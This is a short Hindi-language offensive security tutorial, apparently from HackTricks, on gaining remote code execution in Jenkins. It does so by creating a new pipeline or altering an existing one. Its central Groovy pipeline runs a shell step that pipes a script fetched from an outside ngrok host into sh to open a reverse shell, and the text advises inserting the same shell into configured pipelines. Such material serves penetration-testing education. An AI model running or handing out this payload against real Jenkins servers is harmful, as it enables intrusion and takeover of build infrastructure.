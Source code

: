 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## नया Pipeline बनाना

"New Item" में (जो `/view/all/newJob` पर उपलब्ध है) **Pipeline** चुनें:

![](<../../images/image (235).png>)

**Pipeline सेक्शन** में **reverse shell** लिखें:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
अंत में **Save** पर क्लिक करें, और **Build Now** पर क्लिक करें और पाइपलाइन निष्पादित होगी:

![](<../../images/image (228).png>)

## पाइपलाइन को संशोधित करना

यदि आप किसी कॉन्फ़िगर की गई पाइपलाइन की कॉन्फ़िगरेशन फ़ाइल तक पहुँच सकते हैं, तो आप बस **अपना रिवर्स शेल जोड़कर इसे संशोधित कर सकते हैं** और फिर इसे निष्पादित करें या इसके निष्पादित होने की प्रतीक्षा करें।

{{#include ../../banners/hacktricks-training.md}}
